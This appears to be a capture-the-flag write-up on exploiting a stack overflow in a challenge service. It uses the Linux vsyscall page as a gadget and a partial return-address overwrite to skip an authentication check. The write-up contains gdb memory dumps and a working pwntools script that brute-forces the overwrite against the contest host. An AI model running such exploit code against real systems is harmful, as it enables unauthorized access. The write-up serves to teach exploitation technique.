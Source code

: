     gdb-peda$ info proc mappings
    process 8329
    Mapped address spaces:

              Start Addr           End Addr       Size     Offset objfile
          0x7f9862c07000     0x7f9862dc7000   0x1c0000        0x0 /lib/x86_64-linux-gnu/libc-2.21.so
          [...]
          0x7ffd46f80000     0x7ffd46f82000     0x2000        0x0 [vdso]
      0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]

I hope that vsyscall has what we're looking for...

    gdb-peda$ X/20i 0xffffffffff600000
       0xffffffffff600000:  mov    rax,0x60
       0xffffffffff600007:  syscall 
       0xffffffffff600009:  ret    
       0xffffffffff60000a:  int3   
       0xffffffffff60000b:  int3   

Bingo! That's exactly what we need: a couple of syscall, and we're good to go.
The first idea was to return twice to 0xffffffffff600009 and then to our handle_request(), just after the require_auth() call.
Keep in mind that we have to bruteforce 16 bits.

After trying we noticed that using 0xffffffffff600009 as a gadget resulted in a segfault.
The reason for this odd behaviour is that starting from linux kernel 3.3/3.4 the vsyscall are emulated using a trap-based mechanism
see [SROP](https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf), [LWN](http://lwn.net/Articles/446528/),
and [thisissecurity](http://thisissecurity.net/2015/01/03/playing-with-signals-an-overview-on-sigreturn-oriented-programming/) for more information.

Since we just need to move further the stack to do the partial overwrite we can just call the address of time(...)/gettimeofday(...)/getcpu(...).
We decided to use 0xffffffffff600000 (gettimeofday).
This is possible because in di/si we have an address in a writeable memory page which contains
password and input (more on this later).


```python
from pwn import *

host = 'school.fluxfingers.net'
port = 1514

target = p64(0xffffffffff600000)
payload = 'a' * 72 + 2 * target + '\x8b\x10'
for i in range(0, 16):
  try:
    conn = remote(host, port)
    conn.recvuntil('password: ')
    conn.sendline('55')
    conn.send(payload)
    print conn.recv(4000)
    break
  except:
    conn.close()
    continue
```
